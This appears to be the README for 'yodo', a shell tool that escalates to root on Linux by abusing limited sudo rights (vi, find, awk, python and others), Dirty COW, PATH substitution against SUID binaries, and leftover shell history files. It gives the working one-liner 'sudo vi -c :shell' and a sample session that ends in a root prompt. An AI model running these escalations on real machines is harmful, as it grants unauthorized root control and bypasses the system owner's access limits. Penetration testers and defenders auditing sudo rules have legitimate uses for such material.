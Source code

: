 # yodo
This tool proves how easy it is to become root via limited sudo permissions, via dirty COW or using Pa(th)zuzu.

dirty COW : exploits a race condition in the implementation of the copy-on-write mechanism
Link : https://dirtycow.ninja

Pa(th)zuzu : Checks for PATH substitution vulnerabilities, logs the commands executed by the vulnerable executables and injects commands with the permissions of the owner of the process (SUID)
Link : https://github.com/ShotokanZH/Pa-th-zuzu


# Extra features
-
VSP : checks if the user is able to overwrite a sudo-enabled command with his own

History : checks for * history (like bash_history) files. You could be lucky!

b3 : tries to substitute commands that has root privileges [sudo -l >>> User may run the following commands ... (root) NOPASSWD: /path/to/script]




Example:
If a user has sudo privileges only on vi, he could become root by runnuing this command: sudo vi -c ':shell'

    b3rito@victim ~/Desktop $ sudo vi -c ':shell'
    [sudo] password for b3rito:
    victim Desktop # whoami
    root

# Author
Written by b3rito at mes3hacklab

# Installation
    chmod +x yodo.sh

# Usage
./yodo.sh
    
    b3rito@victim ~/Desktop $ ./yodo.sh
    =======================================================================                                                       
                                    ....                         
                                ..  .77.                        
                                Z.  ,77?                        
                               .Z$.....,?+?.       
                       ....     $?Z.77+??I..            
                       .7I.  .....~.77:=I..Z.....      
                       .77?  ..7?.?.=7....ZO..~..            
                   ..  ..7$7.=7I$.??+.$$~.==.??..    .~..  
                  .$Z$..Z...77.$7..+=?,.I?=.++.+~....?7... ..  
                   ..?.I7:..77....$$IO++??=...7$.Z$..7$?..7$  
                   .77.+:$?7..Z$.?,.~M,?,..77. .ZZ...,,.$77.. 
              ..$=. +7$7...77+$I? ???M.$.I:~I?..,$..7$.Z7=.   
              ..Z7Z.=..~,.....,=O...~MI=~=...O$.~...?7..:$7I. 
              ...Z.Z.?I?.=:.??...??..M.ZZ.. ,.~Z$I,.,7...I.,....   
              ..,......:.~~.?.?+..?~7M..,?...==.~7..:.Z$+.. ....
                .?7..??,...Z.=?:.I7..M. D$Z?$+=.:... +Z+,....77.....
          .$~...:+O7$.+I+$=~:.=...7,:M.M~7 ..Z$..+~:?...7?$.?$~.OZZ$Z...
          ..$I7=?I?,..7?$$M..=:..?...MM.7$,.7...:??....,7I...?..Z$Z$$$.
          ...,=~.?.+.7.....8.$...?,+~MD+I...$7.I.O$Z$.. D8..I=$:$,....
            .$~+$....7Z.$$$7M.?+=$..,M8 .Z.I., M,ZZZ.MM..7+?+77..7..
              .. ...$.MM.....MZ$~Z:Z,MM.O$,$7,MZ .NMM.~77.+?+.7...
                 I7~Z....MM .M7Z....?MMO,Z..$.M 8MM ..=77I=~?..I~.
            .$7I7?.+...$...:MMM. .$=OMM?Z,,..MMMMMMMMMMMMMI..=Z$+...
            ..?7I$$I.+.O:Z,=.8MN.$??MMM..$7.MMM...Z.$.+,?.Z.Z=..$77$..
                   ...?OMMMMMMDMM7$IMMM ..MMM..,$7.Z$Z..??I$,Z.?I...
                   7?:++.??=...~8D..MMM MMMM.???.$...~$.....$Z..7$.. 
                   .....??,::Z$::MM.MMMMMM,,=II?II,.....   ...... ..
                        ,...?:...IOOO8OO8 ?I,:        ,.     
                            .     88OOOO. :.                 
                           .:,,,:,.8OOOO :.                  
                           .,....,. OO8M:.. :.               
                            ..... . 8OMN.:.                  
                                   .ONM8::.                  
                    :8MDO  8MDO   :8MDO,    DMO8M       :8MDO, 
                      DMO  DMO  .+8D   MO,  DMO  8M   .+8D   MO,
                        O  O    $O     OMM  DMO   8M  $O     OMM 
                      :8MDO    .OO     O8   DMO  8M  .OO     O8M,
                      DMO         .8°O88    DMO8M       .8°O88
                                  .8OOOO. .           :.       
                       ...         OOOOO,.                       
        ..  . ......    .........,.MMMMMMI.,........... .       
          .     .. ,INMMMMMMMMMMMMMMMMMMIZMMMMMMMN7=..... . . .  ..
                 .  =. ......~?ZMMMIM.MM NMMN...   .......=+ . .  
                 .  .. .  .$...MM,.MM ..MD....MMMMO... .. ..,..~ 
                 ,     .   . :MM.  MM  .ZMM?.. .$M...7MD77ZD+.,. 
              .    .  :=D7Z8MM.   .M:   .. .MD.. .7D~. ..,.O. .. 
              .. $..=.    ?M?. .. .M.  ..M...IMM  .,..M ..   ..:.. 
              . ..... . .MM.Z   D ,M+. . :+..M. N+ . . ..? . .... 
                       .M7=.+.=.~.:MM.    .  , . .M..   .  ,.  
                      .N?.8. ~  ..,M 8. ... . M. . M.      . . .  
                  . ..NM .$..    .MM...  .    ,+.:: 8 .         
                 . =M.M ..?..    ..M  M .   . .M .I,.M.       
            ,~~  .   .I...8..    M M  .8,.     Z.... b3    
               .     +.   +. .. : .M....O.    ...  . D.=.   
                     O.  .~,    $. 8     .    .~.  ..+ .   
                     8.   ...   M. ,..   , +   .I.. .,..7  
                     O.    .    I   I     ..  .   .  .... 
                     +.      .  :  .M.                   
                      .         .   M                  
                     ..         .   ..                
                     .          .                    
                      ~.             N.                                         
    =======================================================================
    Possible options (‡ excluded):
     [·] find
     [·] vi
     [·] b3
 
     Select From the menu:
 
       1) Find                8) Man  *               17) Pathzuzu °‡
       2) AWK                10) Dirty COW °‡         18) History °‡
       3) Nmap               11) Gdb                  19) Vim
       4) Vi                 12) Ruby                 20) Lua
       5) Python             13) b3                   21) Ftp *
       6) Irb                14) Perl                 22) Credits
       7) Less *             15) Tee                  23) Update
       8) More *             16) VSP °‡               99) Exit
         
     VSP = Vulnerable Script Permissions
     Pathzuzu = SUID exploitation through Path vulnerability
     b3 = editable root privileged commands listed in 'sudo -l'
     * user interatcion
     ° sudo not required
    Enter Number: 1
    [sudo] password for b3rito:
    victim Desktop # whoami
    root
    victim Desktop #
